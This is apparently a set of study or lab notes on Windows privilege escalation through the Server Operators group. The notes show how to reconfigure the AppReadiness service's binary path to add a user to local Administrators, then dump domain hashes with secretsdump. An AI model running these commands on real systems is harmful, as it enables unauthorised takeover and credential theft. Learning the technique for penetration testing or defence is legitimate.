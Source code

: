 ## **Key Concepts:**

- **Service Permissions:**
    - The `Server Operators` group has `SERVICE_ALL_ACCESS` to many services.
    - This allows them to modify service configurations.
- **Service Modification:**
    - The `AppReadiness` service is used as an example.
    - The service's binary path is modified to execute a command.
- **Privilege Escalation:**
    - The modified service command adds the attacker's user to the local administrators group.
    - This results in full control over the machine.

**Approach, Commands, Tools, and Techniques:**

1. **Service Query:**
    
    - `sc qc AppReadiness` (Verify service details).
2. **Service Permissions Check:**
    
    - `PsService.exe security AppReadiness` (Verify `Server Operators` permissions).
3. **Local Administrators Check:**
    
    - `net localgroup Administrators` (Verify current group members).
4. **Service Configuration Modification:**
    
    - `sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"` (Modify service binary path).
5. **Service Start (Trigger):**
    
    - `sc start AppReadiness` (Start the service, triggering the command).
6. **Local Administrators Verification:**
    
    - `net localgroup Administrators` (Verify successful group addition).
7. **Post-Exploitation:**
    
    - `crackmapexec smb <target_ip> -u <user> -p <password>` (Verify administrative access).
    - `secretsdump.py <user>@<target_ip> -just-dc-user administrator` (Extract NTDS.dit hashes).

**Commands:**

- `sc qc`
- `sc config`
- `sc start`
- `net localgroup Administrators`
- `crackmapexec smb`
- `secretsdump.py`

**Tools:**

- `sc.exe` (Windows built-in)
- `PsService.exe` (Sysinternals)
- `crackmapexec` (Impacket)
- `secretsdump.py` (Impacket)

**Techniques:**

- Abusing service permissions.
- Modifying service configurations.
- Adding users to local administrators group.
- Post-exploitation using Impacket.

**Key Considerations:**

- Service availability: The targeted service must be available.
- Permissions: The account must be a member of the Server Operators group.
- Post exploitation: Once admin access is granted, many post exploitation tasks are available.